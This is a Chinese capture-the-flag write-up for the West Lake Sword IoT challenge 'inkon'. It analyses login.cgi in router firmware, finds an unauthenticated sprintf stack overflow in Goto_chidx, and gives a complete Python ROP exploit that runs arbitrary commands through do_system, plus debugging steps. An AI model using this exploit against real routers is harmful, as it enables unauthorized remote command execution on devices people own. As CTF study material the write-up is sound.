# 西湖论剑IOT-inkon-先知社区

> **来源**: https://xz.aliyun.com/news/17411  
> **文章ID**: 17411

---

### 西湖论剑IOT-inkon

题目给出了完整的镜像内核以及启动脚本



这里加了一个映射端口用来调试，因为启动的虚拟机是和宿主机共用ip的，这里映射了80端口和2222端口



可以通过scp来传输文件，比如

```
scp -P 2222 ./run.sh ./gdbserver.mipsle  root@127.0.0.1:/root/cpio-root/etc_ro/lighttpd/www/cgi-bin
```

题目考点在`cpio-root/etc_ro/lighttpd/www/cgi-bin`目录下的`login.cgi`文件里面

#### 对文件进行逆向分析

首先有一个跨站请求的检查



```
int check_csrf_referer()
{
const char *v0; // $s5
const char *v1; // $s7
int v2; // $v0
const char *v3; // $s2
const char *v4; // $s6
char *v5; // $s1
char *v6; // $s4
const char *v7; // $fp
int result; // $v0
  FILE *v9; // $s0
  FILE *v10; // $s0
bool v11; // dc

  v0 = (const char *)nvram_bufget(0, "SYS_DOMAIN1");
  v1 = (const char *)nvram_bufget(0, "SYS_DOMAIN2");
  v3 = (const char *)nvram_bufget(0, "lan_ipaddr");
  v2 = get_wanif_name();
  v4 = (const char *)get_ipaddr(v2);
  v5 = getenv("HTTP_REFERER");
  v6 = getenv("HTTP_HOST");
  v7 = (const char *)nvram_bufget(0, "MeshMode");
if ( !access("/tmp/web_log", 0) )
  {
    v10 = fopen("/dev/console", "w+");
if ( v10 )
    {
fprintf(v10, "%s:%s:%d:http_host-- %s

", "utils.c", "check_csrf_referer", 2101, v6);
      fclose(v10);
    }
  }
if ( !access("/tmp/web_log", 0) )
  {
    v9 = fopen("/dev/console", "w+");
if ( v9 )
    {
fprintf(
        v9,
"%s:%s:%d:http_refer-- %s  ipv4_lan== %s ipv4_wan== %s domain1== %s domain2== %s

",
"utils.c",
"check_csrf_referer",
2102,
        v5,
        v3,
        v4,
        v0,
        v1);
      fclose(v9);
    }
  }
if ( !v5 )
return -1;
if ( strstr(v5, v3) )
return 0;
  v11 = strstr(v5, v0) != 0;
  result = 0;
if ( !v11 )
  {
    v11 = strstr(v5, v1) != 0;
    result = 0;
if ( !v11 )
    {
      v11 = strstr(v5, v4) != 0;
      result = 0;
if ( !v11 )
      {
        v11 = strcmp(v7, "2") != 0;
        result = -1;
if ( !v11 )
        {
          v11 = strstr(v6, v3) != 0;
          result = 0;
if ( !v11 )
          {
            v11 = strstr(v6, v0) != 0;
            result = 0;
if ( !v11 )
            {
              v11 = strstr(v6, v1) != 0;
              result = 0;
if ( !v11 )
              {
if ( strstr(v6, v4) )
return 0;
return -1;
              }
            }
          }
        }
      }
    }
  }
return result;
}
```

需要保证HTTP\_REFERER字段不为空，使得函数返回值为0

继续检查对发送的POST请求长度做了检查，长度不能大于0x1f3



这里获取发送的报文的属性值`page`



之后对其匹配，而漏洞正是发生在`Goto_chidx`函数里面



可以看见再次进行了匹配，获取`wlanUrl`的值，并通过`sprintf`函数放到栈中，但是空间只有0x80大小，而v6的值用户可以控制，那么这里就存在未授权，且栈溢出的可能



#### EXP

本人通过本地调试发现不好绕过前面那个跨站请求的检查，设置环境变量不管用，那么还又一种思路是直接启动环境，然后发送报文

```
import requests
from pwn import *
import sys


libwebutil_base=0x77e1e000
libc_base =  0x77d7c000 

cmd= sys.argv[1]

'''
.text:00007970 28 00 BC 8F lw $gp, 0x28($sp)
.text:00007974 00 00 00 00 nop
.text:00007978 C8 80 99 8F la $t9, do_system
.text:0000797C 00 00 0x77d7c000 00 00 nop
.text:00007980 09 F8 20 03 jalr $t9 ; do_system
.text:00007984             move    $a0, $s0
'''

fmt=libwebutil_base+0x578b8  #"%s"
#fmt=libwebutil_base+0x578d0
rop=libwebutil_base+0x7970
gp=libwebutil_base+0x5d550 #fix $gp
ret = libc_base + 0x1BD94

cmd=b"a;"+cmd.encode()+b";\x00"
system = libc_base + 0x47D80
#payload=b"page=Goto_chidx&wlanUrl="

payload = b'a'*(140-12)
 # 初始化 payload

# payload +=b'b'*4+ b'c'*4 + b'd'*4 + p32(ret) + b'r'*0xc + p32(system) + p32(gp) + b'a'*4 + cmd 
# payload += b'r'*(0x40-8-1) + p32(system)
# payload=b"a"*(128)
payload+=p32(fmt)+b"b"*8
payload+=p32(rop)+b"c"*40+p32(gp)+cmd

Head = {'Referer': 'wifi.wavlink.com'}
url = "http://192.168.102.145/cgi-bin/login.cgi"
Data = {"page":"Goto_chidx","wlanUrl":payload}

response = requests.post(url,headers=Head,data=Data)

print(response.text)
print(response)
```

原本想通过libc里面gadget来ROP的但是发现官方写的wp并不是利用libc地址，而是通过libwebutil里面的system函数来获取shell的，因为

调试发现当利用system里面的system函数的时候



这里gp寄存器会变成一个不可写的地址导致后面会报错（这里不知道为什么正常索引索引不到）

尝试变成可写地址之后发现会出现gp变成0的情况



而通过libwebutil也需要伪造gp



合理构造偏移跳转到do\_system





最终效果




#### 调试方法

对于这种一闪而过的调用还是利用无限跳转法来实现卡住进程

然后利用如下命令来实现远程连接

```
./gdbserver 192.168.102.145:1234 --attach PID
```





#### 总结

当libc里面的gadget不好构造的时候也可以考虑别的so文件里面的关键函数和gadget
